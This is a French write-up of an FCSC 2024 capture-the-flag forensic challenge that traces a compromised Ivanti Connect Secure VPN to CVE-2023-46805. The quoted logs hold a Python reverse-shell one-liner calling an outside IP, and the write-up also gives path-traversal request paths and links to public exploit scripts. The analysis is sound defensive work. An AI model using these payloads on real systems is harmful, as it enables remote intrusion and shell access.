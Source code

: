 ```yaml
---
title: "FCSC 2024 · VPN compromis : analyse de la CVE-2023-46805 Ivanti"
date: 2024-04-15T09:06:22+02:00
draft: false
---
```


*Challenge "Horreur Malheur 2/5 Accès initial" du [FCSC 2024](https://france-cybersecurity-challenge.fr/).*

## Abstract

Ce challenge nous met sur les traces des CVE qui ont impactées les produits Ivanti fin 2023-début 2024. En identifiant les IPs, on observe que l'une d'entre elle a installé un reverse shell sur la machine hôte. Une analyse des logs de l'équipement et d'un exploit nous permet d'identifier précisément la CVE.

---

Le challenge nous donne accès aux journaux d'un équipement compromis. L'objectif est de trouver l'adresse IP de l'attaquant ainsi que la CVE utilisée. Un indice est donné dans l'énoncé : 

> En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : VPN compromis (intégrité). Version 22.3R1 b1647.

Le début est toujours un peu compliqué, étant donné qu'on ne sait pas vraiment ce qu'on observe, quelles sont les technologies utilisées etc... J'ai pour habitude d'ouvrir la plupart des fichiers et de les parcourir succinctement afin de voir à quoi j'ai à faire. En l'occurrence, des logs web et les processus d'une machine.

## Identification de l'IP de l'attaquant

Je fais un regex qui va m'extraire toutes les IPs des logs afin de voir la taille du périmètre. Je pourrai ensuite peut-être identifier des comportements anormaux d'après ces IPs.

```bash
grep -REoh '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b'
```

Cette commande nous sort beaucoup d'adresses similaires, j'ai redirigé la sortie vers un fichier que je traite ensuite avec un script python pour extraire les IPs uniques. On a quelques faux positifs comme des numéros de versions ou ce genre de choses. Heureusement, il n'y a "que" 21 sorties, on peut rechercher chaque ligne avec `grep` pour trier les vraies IP des numéros de version. Cette méthode a l'avantage de nous faire commencer par `20.13.3.0` qui produit un résultat très suspect :

```bash

> grep -R '20\.13\.3\.0'
nodemonlog:21969     1  0.0  0.0 S   452   4852  3808 /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"'
[...]
nodemonlog:web        6264     root   23u     IPv6            1707721       0t0        TCP 172.18.0.4:https->20.13.3.0:55102 (ESTABLISHED)
nodemonlog:python    21971     root    3u     IPv4            1465043       0t0        TCP 172.18.0.4:13606->20.13.3.0:krb524 (ESTABLISHED)
nodemonlog:sh        21972     root    0u     IPv4            1465043       0t0        TCP 172.18.0.4:13606->20.13.3.0:krb524 (ESTABLISHED)
```

Le premier match semble être un reverse shell en Python qui initie une connexion vers `20.13.3.0:4444` pour démarer un shell interactif (`/bin/sh -i`). Les lignes suivantes montrent les connexions sortantes ce qui confirme que le code malveillant a fonctionné.

> A noter que les logs contiennent des traces d'autres payloads qui semblent cibler `uWSGI` (je vous laisserai les chercher :p). Ce sont peut-être des scanns automatisés qui passaient par là. Des CVEs existent avec des payloads ressemblant, ce qui m'a fait perdre pas mal de temps et des tentatives de flag (au bout de 10 mauvais flags, le challenge se bloquait).

## Ivanti Connect Secure

On est sur un service web avec des logs et on voit que `/api/v1/cav/client/` est commun à toutes les requêtes. Si on cherche cet endpoint sur internet, on trouve des mentions de CVE sur Ivanti Pulse Connect Secure : [High Signal Detection and Exploitation of Ivanti's Pulse Connect Secure Auth Bypass & RCE](https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce).

Ou bien, on peut utiliser l'indice de l'énoncé : *"VPN compromis (intégrité). Version 22.3R1 b1647"*, on trouvera la technologie utilisée et les CVE associées.

On a 2 CVEs possibles : CVE-2023-46805 (Authentication Bypass) & CVE-2024-21887 (Remote Command Execution). Il reste à trouver la bonne, ce qui n'est pas simple puisqu'elles sont souvent liées dans les articles qui y font mention.

> A noter qu'il est fait mention d'un nouveau payload pour la CVE-2023-46805, `/api/v1/cav/client/status/../../admin/options`, mais il n'y a pas cette trace dans les logs.

En creusant, j'ai trouvé deux exploits sur Github : 
- [CVE-2023-46805.sh](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/blob/main/CVE-2023-46805.sh)
- [CVE-2024-21887.sh](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/blob/main/CVE-2024-21887.sh)

Elles ciblent l'endpoint `/api/v1/totp/user-backup-code/` avec un path traversal, qui est aussi présent dans nos logs :

```bash
> grep -R '/api/v1/totp/user-backup-code/'

config_rest_server.log.old:[pid: 6299|app: 0|req: 1/1] 172.18.0.4 () {30 vars in 501 bytes} [Fri Mar 15 06:29:17 2024] POST /api/v1/totp/user-backup-code/../../system/maintenance/archiving/cloud-server-test-connection => generated 14 bytes in 164281 msecs (HTTP/1.1 200) 2 headers in 71 bytes (1 switches on core 0)
```

On semble être sur la bonne voie. Néanmoins, la CVE-2024-21887 effectue un path traversal sur l'endpoint `/license/keys-status/` qui n'est pas présent dans nos logs. De plus, la vulnérabilité nécessite un payload encodé qui n'est pas non plus présent. Enfin, la CVE-2023-46805 utilise un path traversal pour se rendre dans `system/`, c'est aussi ce qu'on retrouve dans les logs. Cet article confirme que c'est bien la vulnérabilité de 2023 qui a été exploitée : [Ivanti Connect Secure Auth Bypass and Remote Code Authentication CVE-2024-21887](https://www.iblue.team/incident-response-1/ivanti-connect-secure-auth-bypass-and-remote-code-authentication-cve-2024-21887). On y retrouve le même reverse shell.

